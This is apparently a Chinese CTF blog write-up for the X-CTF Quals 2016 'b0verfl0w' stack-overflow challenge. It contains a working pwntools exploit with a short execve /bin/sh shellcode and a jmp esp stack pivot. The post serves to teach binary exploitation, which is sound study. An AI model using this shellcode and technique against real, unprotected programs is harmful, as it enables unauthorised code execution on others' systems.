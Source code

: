 ```yaml
---
layout: post
title: CTF-PWN实例5（X-CTF Quals 2016 - b0verfl0w）
categories: 
 - CTF
 - PWN
 - 二进制
permalink: /pwn/6
nocomments: true  # Disable the comment box. This is EasyBook feature
typora-root-url: ..\_site
---
```


# CTF-PWN实例6（X-CTF Quals 2016 - b0verfl0w）

## 题目地址：

https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/stackprivot/X-CTF%20Quals%202016%20-%20b0verfl0w

## 程序保护：

```shell
$ checksec b0verfl0w
```

```shell
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

没有开启任何保护。

## 程序信息：

```shell
$file b0verfl0w
b0verfl0w: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=9f2d9dc0c9cc531c9656e6e84359398dd765b684, not stripped
```

动态链接。

## 解题：

### 一、IDA分析程序溢出点

IDA分析：

这里main函数只是调用了一个函数，被调用的函数内容：

```c
signed int vul()
{
  char s; // [sp+18h] [bp-20h]@1

  puts("\n======================");
  puts("\nWelcome to X-CTF 2016!");
  puts("\n======================");
  puts("What's your name?");
  fflush(stdout);
  fgets(&s, 50, stdin);
  printf("Hello %s.", &s);
  fflush(stdout);
  return 1;
}
```

其所能溢出的字节就只有 50-0x20-4=14 个字节，这时候就需要更短的shellcode来利用。

```python
>>> from pwn import *
>>> len(asm(shellcraft.sh()))
44
```

pwntools生成的shellcode已经有44长度，所以肯定是不能成功利用的。这时候需要用到一个非常短的shellcode。

```c
shellcode = "\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80"
```

然后将shellcode写入到栈中。控制eip指向shellcode。

### 二、编写EXP

思路：

获取到shellcode地址，程序会开启ASLR保护，地址是随机的，但是在栈上相对偏移是固定的。所以我们可以利用栈溢出对esp操作使esp指向shellcode处，然后控制程序跳转到esp处。

这里时先找到jmp esp 地址。

```shell
$ ROPgadget --binary b0verfl0w --only 'jmp|ret'  
Gadgets information
============================================================
0x08048504 : jmp esp
0x0804836a : ret
0x0804847e : ret 0xeac1

Unique gadgets found: 3
```

这时候我们需要通过减法和计算占用字节来计算shellcode的地址。

- size(shellcode+padding)=0x20
- size(fake ebp)=0x4
- size(0x08048504)=0x4

这时候所需要的语句：

```c
sub esp,0x28
jmp esp
```

最总exp：

```python
from pwn import *
sh = process('./b0verfl0w')
context.log_level = 'debug'
if args.G:   
    gdb.attach(sh)

shellcode_x86 = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode_x86 += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode_x86 += "\x0b\xcd\x80"

sub_esp_jmp = asm('sub esp, 0x28;jmp esp')
jmp_esp = 0x08048504
payload = shellcode_x86 + (
    0x20 - len(shellcode_x86)) * 'b' + 'bbbb' + p32(jmp_esp) + sub_esp_jmp
sh.sendline(payload)
sh.interactive()
```

如果不理解可以进行调试发现栈内执行步骤。

## 总结

最短shellcode积累，利用jmp esp进行程序流程控制。
